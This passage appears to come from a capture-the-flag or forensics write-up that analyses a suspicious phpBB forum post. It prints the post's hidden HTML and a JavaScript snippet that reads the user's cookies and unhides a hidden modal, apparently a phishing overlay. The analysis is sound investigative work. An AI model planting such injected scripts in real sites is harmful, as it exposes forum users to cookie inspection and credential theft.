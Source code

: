 ```
        </div>
        <div id="phpbb_confirm" class="phpbb_alert">
          <a href="#" class="alert_close">
            <i class="icon fa-times-circle fa-fw" aria-hidden="true"></i>
          </a>
          <div class="alert_text"></div>
        </div>
      </div>
    </div>
    <div>
      <a id="bottom" class="anchor" accesskey="z"></a>
      <img src="./cron.php?cron_type=cron.task.core.tidy_warnings" width="1" height="1" alt="cron">
    </div>
  </div>
  <span>Greetings everyone, <br>
    <br> I am just a visiting IT Contractor, it's a fantastic company y'all have here. <br> I hope to work with you all again soon. <br>
    <br> Regards, <br>Alex Poole </span>
</div>

```

Right at the top I’ll note that it’s unusual / suspect for the post to have JavaScript embedded in it.

Dropping this into an [online beautifier / previewer](https://codebeautify.org/htmlviewer) generates the nicely-spaced code above, and offers this preview:

![image-20240520121231490](/img/image-20240520121231490.png)

Saving the HTML to a file and opening it in Firefox shows a bit more:

![image-20240520122201533](/img/image-20240520122201533.png)

Interestingly, it cuts off and won’t scroll further.

Looking at the raw HTML, at the top there’s JavaScript that waits for the page to load and then captures the user’s cookie:

```

    document.addEventListener("DOMContentLoaded", function(event) {
      let cookieexists = false;
      let name = "phpbb_token=";
      let cookies = decodeURIComponent(document.cookie);
      let ca = cookies.split(';');
      for (let i = 0; i < ca.length; i++) {
        let c = ca[i];
        while (c.charAt(0) == ' ') {
          c = c.substring(1);
        }
        if (c.indexOf(name) == 0) {
          cookieexists = true;
        }
      }
      if (cookieexists) {
        return;
      }
      var modal = document.getElementById('zbzbz1234');
      modal.classList.remove("hidden");
    });

```
